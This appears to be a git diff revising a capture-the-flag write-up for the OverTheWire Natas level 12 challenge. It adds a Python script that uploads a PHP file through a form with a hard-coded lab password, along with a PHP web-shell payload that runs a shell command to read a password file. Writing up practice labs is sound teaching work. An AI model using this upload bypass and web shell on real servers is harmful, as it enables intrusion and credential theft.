

Fixed images with leaked info, fixed README.md

Changed region(s): [[0.3997, 0.4607, 0.6764, 0.5221], [0.3075, 0.6142, 0.4612, 0.6756]]

diff --git a/overthewire/natas/natas12-natas13/README.md b/overthewire/natas/natas12-natas13/README.md
@@ -18,18 +18,41 @@ Looks like it spits out an error.
 
 It also seems that our filename is being changed to a random filename with a `.jpg` extension everytime we upload.
 
-Looking at the source code we see there are 2 major function that come in to play.
+Looking at the source code we see there are 2 major code blocks that come in to play.
 
 ![source](./img/source.png)
 
-The first being the `makeRandomPathFromFilename` which creates a random filename with an extension that is provided with the filename. If we looks closely to the bottom, the snippet `value="<? print genRandomString(); ?>.jpg" />` is forcing it so our filename will always end in `.jpg` but we can probably change that.
+The first being the `makeRandomPathFromFilename` which creates a random filename with an extension that is provided with the filename. If we looks closely to the bottom, the snippet `value="<? print genRandomString(); ?>.jpg" />` is forcing it so our filename will always end in `.jpg` but we can probably change that if we upload the file directly wihtout going through that piece of code.
 
 The second being that `if(array_key_exists("filename", $_POST)) { ` that will upload our file if we do a `POST` request on the page.
 
 Now let's create a python script that will upload our file directly to the web server.
 
 ```python
+#!/usr/bin/env python
 
+import requests
+
+url = 'http://natas12.natas.labs.overthewire.org'
+
+user = 'natas12'
+
+pw = 'EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3'
+
+# Fill out the necessary Form data
+data = {
+	"filename" : "test.php",
+	"MAX_FILE_SIZE" : "1000",
+}
+
+# File to upload
+files = {
+	"uploadedfile" : open('test.php','rb')
+}
+
+r = requests.post(url,auth = (user,pw), data = data, files = files )
+
+print(r.text)
 ```
 
 Looks like we are successful in uploading our file, it preserved the `.php` extension that will hopefully execute on the website.
@@ -48,8 +71,10 @@ This payload will run the `system` function in PHP which will execute shell comm
 echo '<?php system("cat /etc/natas_webpass/natas13"); ?>' > test.php
 ```
 
-Uploading the file once more with python, we navigate to that file and we get the password.
+Uploading the file once more with python.
 
 ![exploit](./img/exploit.png)
+
+We get the password for natas13.
 
 ![password](./img/password.png)
